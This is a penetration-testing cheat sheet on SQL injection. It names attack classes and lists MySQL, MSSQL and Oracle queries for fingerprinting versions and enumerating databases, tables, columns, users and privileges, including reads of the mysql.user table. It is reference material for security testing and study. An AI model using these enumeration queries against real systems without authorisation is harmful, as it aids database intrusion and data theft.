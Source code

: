 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# SQL Injection
### References

* References
	* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Attack Classes
* **In band**: union-based, error-based
* **Out-of-band**: HTTP request, DNS request, email, file system
* **Inference**: Blind (boolean-based, time-based)

* General SQL Commands (not specific to attacking) - [SQL Guide](Testaments_and_Books/Other/SQL/SQL.md)

## Information Gathering
* Get Version
	* mysql

			@@version
			@@global.version
			version()
	* mssql

			@@version
	* oracle

			version FROM v$instance
			banner FROM v$version WHERE banner LIKE 'oracle%'
			banner FROM gv$version WHERE banner LIKE 'oracle%'
* String Concatenation
	* mysql

			concat('concat', 'enation')
			'concat' 'enation'
	* mssql

			'some' + 'concatenation'
			concat('concat', 'enation')
	* oracle

			'concat' || 'enation'
			concat('concat', 'enation')
* Numeric Functions
	* mysql

			connection_id()
			last_insert_id()
			row_count()
	* mssql

			@@pack_received
			@@rowcount
			@@transcount
	* oracle

			bitand(0, 1)
			bin_to_num(1)
			to_number(1234)
* Show Databases
	* mysql

			SELECT schema_name FROM information_schema.schemata;
			SHOW databases; -- only if the user has SHOW privs
			SHOW schemas; -- only if the user has SHOW privs
			SELECT database();
			SELECT schema();
	* mssql

			SELECT name FROM master..sysdatabases;
			SELECT name FROM sysdatabases;
			SELECT name FROM sys.databases;
			SELECT db_name(); -- supply smallint ID value
			SELECT 1, db_name(1) FROM master..sysdatabases;
	* oracle

			SELECT tablespace_name FROM user_tablespaces;
			SELECT default_tablespace FROM user_users;
			SELECT default_tablespace FROM sys.user_users;
		* each DB must point to an instance
* Show Tables
	* mysql

			SELECT table_schema, table_name FROM information_schema.tables;
			SHOW tables;
			SHOW tables IN employees -- other DB
	* mssql

			SELECT name FROM sysobjects WHERE xtype = 'U';
			SELECT name FROM employees..sysobjects WHERE xtype = 'U'; -- specific db
			SELECT table_name FROM information_schema.tables;
			SELECT table_name FROM information_schema.tables WHERE table_type = 'BASE TABLE';
			SELECT table_name FROM employees.information_schema.tables; # specific db
			SELECT table_name FROM employees.information_schema.tables WHERE table_type = 'BASE TABLE';
	* oracle

			SELECT table_name, tablespace_name FROM sys.all_tables;
			SELECT table_name, tablespace_name FROM all_tables;

	* oracle constant expression and DUAL table

			SELECT "WAPTx" FROM DUAL;
* Show Columns
	* mysql

			SELECT table_schema, table_name, column_name FROM information_schema.columns;
			SHOW columns FROM departments IN employees; -- - specific table/db
	* mssql

			SELECT name FROM syscolumns;
			SELECT name FROM employees..syscolumns; # specific table
			SELECT column_name FROM information_schema.columns;
			SELECT column_name FROM employees.information_schema.columns;
			SELECT column_name FROM employees.information_schema.columns WHERE table_name = 'salary';
			SELECT column_name FROM sys.all_tab_columns;
			SELECT column_name FROM all_tab_columns;
	* mssql xtype object types

			S = System table
			U = User table
			TT = Table type
			X = Extended Stored Procedure
			V = Views
* User Functions
	* mysql

			user()
			current_user()
			system_user()
			session_user()
			current_user
			SELECT user FROM mysql.user -- only if privileged
			SELECT grantee, privilege_type FROM information_schema.user_privileges;
			SELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges;
			SELECT user, select_priv, ..., FROM mysql.user;
			SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE privilege_type = 'SUPER';
			SELECT user FROM mysql.user WHERE super_priv = 'Y';